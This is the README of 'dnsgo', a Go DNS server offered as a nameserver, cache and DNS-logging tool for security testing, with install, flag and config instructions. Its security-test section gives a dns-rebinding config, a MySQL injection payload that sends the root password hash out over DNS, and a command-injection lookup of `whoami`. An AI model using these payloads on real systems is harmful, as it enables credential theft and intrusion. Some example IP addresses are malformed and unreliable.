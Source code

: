 # dnsgo

## What's it?

It's a dns server.And you can use it when you need to use a own dns server.

## Where to use it?

- Use it as a website's nameserver (Only support "A" record now).
- Use it in intra network. Such as fast dns cache server. What's more, you can use it to defense dns DNS cache pollution.
- Use it when you need to get dns record. Not only monitor dns request, but also in web security test such as dns rebinding.

## How to use it?

### Install

```
go get github.com/grt1st/dnsgo
cd $GOPATH/src/github.com/grt1st/dnsgo
go build github.com/grt1st/dnsgo
./dnsgo -h
```

### Command 

```
$ [dnsgo]: ./dnsgo -h
Usage:
  ./dnsgo [Options]

Options
  -h	Show usage
  -host string
    	Address to bind (default "localhost")
  -log string
    	Filename of log file
  -query
    	Whether to send dns request
  -version
    	Show program's version number and exit
```

You can simply run it by: `sudo ./dnsgo`. You can define the address to bind, like `sudo ./dnsgo -host 0.0.0.0`. It will bind at `localhost` defaultly.

If you need it to lookup dns when meet undefined domain, set `query` please, such as `sudo ./dngo -query` .

Also you can define a log file, such as: `./dnsgo.go -log "./dnsgo.log"`

### Config File:

```
├── conf
|   |── default.conf
│   ├── hosts.conf        
│   ├── nameserver.conf
│   └── resolver.conf
```
- default.conf:

    Default config file. It defines where to find config file, don't need to change it.

- hosts.conf: 

     The file is like `/etc/hosts`, you can define a domain-ip relation in it. such as `github.com. 127.0.0.01`.
     What's more, you can define more ip by `&`: `github.com. 127.0.0.0.1&1.2.3.4`.
     And, you can use wildcard in it, such as `*.github.com. 192.168.1.1`
     
     Pattern:
     | Pattern | Meaning |
     | - | :-: |
     | `github.com. 127.0.0.0.1`| A record to `github.com`, value: `127.0.0.1`|
     | `github.com. 127.0.0.0.1&1.2.3.4` | A record to `github.com`, value: `127.0.0.1` & `1.2.3.4` |
     | `a.github.com. 127.0.0.0.1` | Define a subdomain `a.github.com` with A record |
     | `*.github.com. 127.0.0.0.1` | Define a subdomain of wildcard. Priority is lower than the specified subdomain. |
     | `github.com. 127.0.0.0.1|1.2.3.4` | dns-rebinding. A record to `github.com`, Odd requests return first one(`127.0.0.1`), while even requests return the second(`1.2.3.4`). |
     
     
- nameserver.conf

    It's the file of nameserver. Config it by `nameserver 8.8.8.8`.
    
- resolver.conf

    A file like `/etc/resolv.conf`, don't know it much. But it's about dns forward. The format like `server=/*.abc.local/192.168.10.1`
    
### Example

#### Basic use

 `./dnsgo -host 0.0.0.0`, you can test it by `dig @127.0.0.1 xxxx.xx`

#### Use it on the public network 

To use it on the internet, first, you have to add a nameserver record for it. Config it at the domain name resolution page.

Config subdomain like this:
```
dnsgo NS ns.dnsgo.your-domain
ns.dnsgo A your-ip
```

Then you can config host at `conf/hosts.conf`, like:
```
test.dnsgo.your-domain. 8.8.8.8
```

To do dns rebinding, do this:
```
rebind.dnsgo.your-domain. 8.8.8.8|127.0.0.1
```

However, it depends on the dns server, for example some servers min-ttl is 60.

#### Get DNS Records

After you setup, you can get the dns records.

Normally, it will output at the command line:
```
- dnsgo [master] ⚡  sudo ./dnsgo
Password:
2018/07/10 23:56:22 [+] dns server start listening at localhost:53
2018/07/10 23:56:31 [INFO] hosts%!(EXTRA net.IP=127.0.0.1, string=github.com., []string=[127.0.0.1], int=1)
2018/07/11 00:01:10 [INFO] hosts%!(EXTRA net.IP=127.0.0.1, string=grt1st.cn., []string=[123.206.60.140 1.2.3.4], int=2)
```

Also, you can set log file by `./dnsgo -log dns.log` to log records in a file, then `cat` the file.

#### Security Test

- Dns Rebinding: eg: Set `rebind.your-domain 1.2.3.4|127.0.0.1` at `hosts.conf`, then `dig rebind.your-domain` to test.
- Dnslog in Sql Injection. eg: `SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE user='root' LIMIT 1),'.mysql.your-domain\\abc'));` in mysql (only support in windows for unc). More eg at [Dnslog在SQL注入中的实战](https://www.anquanke.com/post/id/98096)
- Command Injection. eg: 
```
dig `whoami`.your-domain
```

## To-do 

1. Dynamic update hosts
2. More stability test
3. Code rebuild
4. Fix ns lookup read timeout bug

## Thanks

[miekg/dns](https://github.com/miekg/dns)

[kenshinx/godns](https://github.com/kenshinx/godns)
